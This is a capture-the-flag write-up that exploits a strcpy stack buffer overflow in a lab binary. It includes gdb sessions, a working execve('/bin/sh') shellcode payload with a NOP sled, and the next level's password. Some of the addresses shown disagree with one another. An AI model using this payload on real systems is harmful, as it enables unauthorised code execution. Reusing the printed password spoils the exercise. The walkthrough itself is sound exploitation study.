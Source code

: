 # Performing BufferOverflow to find flag
## My Approach:

### Code
``` #include <stdio.h>  
 #include <stdlib.h> 
 #include <string.h> 

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
``` 

As we can see from the code, the unsafe function strcpy is being used to copy user input to a buffer.
We can first check whether the address space is randomized or not. 

```
level1@lxc-pwn-x86:/levels$ cat /proc/sys/kernel/randomize_va_space
0
```

As we can see the address space is not randomized. We now need to find the address of the buffer to run our shellcode.
```
Dump of assembler code for function main:
   0x0804841c <+0>:     push   %ebp
   0x0804841d <+1>:     mov    %esp,%ebp
   0x0804841f <+3>:     and    $0xfffffff0,%esp
   0x08048422 <+6>:     sub    $0x410,%esp
   0x08048428 <+12>:    mov    0xc(%ebp),%eax
   0x0804842b <+15>:    add    $0x4,%eax
   0x0804842e <+18>:    mov    (%eax),%eax
   0x08048430 <+20>:    mov    %eax,0x4(%esp)
   0x08048434 <+24>:    lea    0x10(%esp),%eax
   0x08048438 <+28>:    mov    %eax,(%esp)
   0x0804843b <+31>:    call   0x8048300 <strcpy@plt>
   0x08048440 <+36>:    mov    $0x0,%eax
   0x08048445 <+41>:    leave
   0x08048446 <+42>:    ret
End of assembler dump.
(gdb) b * 0x0804843b
Breakpoint 1 at 0x804843b: file level1.c, line 9.
(gdb) r AAAA
Starting program: /levels/level1 AAAA

Breakpoint 1, 0x0804843b in main (argc=2, argv=0xffffdd14) at level1.c:9
9           strcpy(buf, argv[1]);
(gdb) x/w $eax
0xffffd870:     4
(gdb) x/xw $eax
0xffffd870:     0x00000004
(gdb) x/xw $esp
0xffffd860:     0xffffd870
(gdb) x/xw 0xffffd870
0xffffd870:     0x00000004
(gdb) b *0x08048440
Breakpoint 2 at 0x8048440: file level1.c, line 10.
(gdb) c
Continuing.

Breakpoint 2, main (argc=2, argv=0xffffdd14) at level1.c:10
10          return 0;
(gdb) x/200xw $esp
0xffffd860:     0xffffd870      0xffffde46      0x00000048      0x00000004
0xffffd870:     0x41414141      0x6474e500      0x00162688      0x00162688
```

As we can see our buffer address is 0xffffd870.  Now, all we need to do is give an input big enough to corrupt the return address.

```
(gdb) r $(python -c 'print "A"*1040')
(gdb) x/xw $ebp+4
0xffffd86c:     0x41414141
```

We now know that we need roughly about 1040 bytes to hit the return address. We can design our input in such a way that we can place the address of our buffer in the return address.
To do this we need to run the following:

```
(gdb) r $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*1012 + "\x60\xd4\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*1012 + "\x60\xd4\xff\xff"')

Breakpoint 1, main (argc=0, argv=0xffffd904) at level1.c:10
10          return 0;
(gdb) c
Continuing.
process 24285 is executing new program: /bin/sh
```

We have spawned a shell from gdb. Now we need to do the same outside gdb.

```
level1@lxc-pwn-x86:/levels$ ./level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*1012 + "\x60\xd4\xff\xff"')
Segmentation fault
```

Hmmm....it seems the address is changing when we're outside gdb. Let us try some different values for the address.

```
level1@lxc-pwn-x86:/levels$ ./level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*1012 + "\x70\xd4\xff\xff"')
Segmentation fault
level1@lxc-pwn-x86:/levels$ ./level1 $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*1012 + "\x80\xd4\xff\xff"')
level2@lxc-pwn-x86:/levels$ cat ~/.pass
TJyK9lJwZrgqc8nIIF6o
level2@lxc-pwn-x86:/levels$
```

We have found the password for the next level. 
## Password is: TJyK9lJwZrgqc8nIIF6o
